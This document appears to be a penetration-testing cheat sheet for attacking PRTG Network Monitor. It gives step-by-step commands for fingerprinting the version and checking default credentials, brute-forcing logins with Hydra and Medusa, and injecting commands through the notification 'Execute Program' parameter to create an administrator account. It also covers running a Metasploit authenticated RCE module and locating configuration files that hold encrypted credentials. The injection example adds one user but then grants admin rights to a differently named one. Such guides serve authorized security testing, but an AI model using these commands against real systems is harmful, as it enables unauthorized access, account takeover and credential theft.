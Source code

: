 ```yaml
---
legal-banner: true
---
```


### **Introduction**

PRTG Network Monitor is a comprehensive network monitoring tool that allows businesses to observe and manage their IT infrastructure. It provides real-time data on the health and performance of network devices, servers, and services, enabling IT administrators to detect outages, optimize performance, and ensure system reliability. PRTG supports a wide range of technologies and comes with flexible alerting, reporting capabilities, and an intuitive interface for easy operation.

### **Default Configuration and Credentials**

1.  Identify PRTG version  
    `curl -s http://[PRTG-DOMAIN]/index.htm -A "Mozilla/5.0 (compatible; MSIE 7.01; Windows NT 5.0)" | grep version`
2.  Check if the PRTG default administrator credentials (prtgadmin:prtgadmin) are in use by accessing the login page:  
    `http://[PRTG-DOMAIN]/index.htm`

### **Brute-Force PRTG Credentials**

1.  Brute-Forcing with Hydra:  
    `hydra -l admin -P /path/to/passwords.txt [PRTG-DOMAIN] http-post-form "/public/checklogin.htm:login=^USER^&password=^PASS^:Login failed"`
2.  Brute-Forcing with Medusa:  
    `medusa -h [PRTG-DOMAIN] -u admin -P /path/to/passwords.txt -M http -m DIR:/public/checklogin.htm -m POST:login=^USER^&password=^PASS^ -T 10`

### **Command Injection**

1.  Navigate to Notifications Configuration:  
    `Navigate to Setup > Account Settings > Notifications.`
2.  Add New Notification:  
    `Click the plus button on the right and select "Add new notification"`
3.  Configure Notification:  
    `Leave everything unchanged, scroll down to the bottom and select “Execute Program”.`
4.  Choose a demo PowerShell script (e.g., demo.ps1) as the program file.
5.  In the Parameter field, enter the following command:  
    `test.txt;net user hackfast p3nT3st! /add;net localgroup administrators anon /add`
6.  Save the notification.
7.  In the list of notifications, check the box next to the new notification.
8.  Click the bell icon at the top to test the notification.

### **Remote Code Execution (RCE)**

1.  Start Metasploit:  
    `msfconsole`
2.  Search for PRTG-Related Exploits:  
    `searchsploit PRTG`
3.  Use exploit module:  
    `use exploit/windows/http/prtg_authenticated_rce`
4.  Set the Target Host:  
    `set RHOSTS [PRTG-URL]`
5.  Set the Username:  
    `set ADMIN_USERNAME admin`
6.  Set the Password:  
    `set ADMIN_PASSWORD prtgadmin`
7.  Run exploit:  
    `exploit`

**Extract Configuration and Data**:

1.  Locate configuration files to extract credentials and settings:  
    `\ProgramData\Paessler\PRTG Network Monitor`  
    `PRTG Configuration.dat`  
    `PRTG Configuration.old.bak`
2.  Encrypted password block format:
    
    ```
    <dbpassword>
        <flags>
            <encrypted/>
        </flags>
    </dbpassword>
    ```